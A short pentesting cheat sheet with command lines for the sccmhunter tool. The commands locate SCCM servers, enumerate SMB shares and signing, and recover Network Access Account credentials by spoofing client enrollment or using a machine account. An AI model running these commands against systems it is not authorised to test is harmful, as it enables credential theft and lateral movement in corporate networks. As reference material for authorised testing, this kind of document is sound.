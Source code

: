 ### Source
https://github.com/garrettfoster13/sccmhunter

### Find SCCM server
```
python3 sccmhunter.py find -u <user> -p "<password>" -d <domain> -dc-ip <domainController>
```

### Enumerate SMB shares and check SMB signing and MSSQL service for found servers
```
python3 sccmhunter.py smb -u <user> -p "<password>" -d <domain> -dc-ip <domainController>
```

### Show results of previous scans
```
python3 sccmhunter.py show -all
```

### Possible values for show results
```
-siteservers
-mps
-users
-computers
-groups
-creds
```

### Spoof standard client enrollment to recover NAA credentials (need ms-DS-MachineAccountQuota != 0)
```
python3 sccmhunter.py http -u <user> -p <password> -d <domain> -dc-ip <domainController> -auto
```

### Use existing machine account to recover NAA credentials
```
python3 sccmhunter.py http -u <user> -p <password> -d <domain> -dc-ip <domainController> -cn '<computerAccount$>' -cp <computerPassword>
```

### Request policy
```
python3 sccmhunter.py http -u <user> -p <password> -d <domain> -dc-ip <domainController> -mp <managmentPointRhost> -uuid <uuid>
```

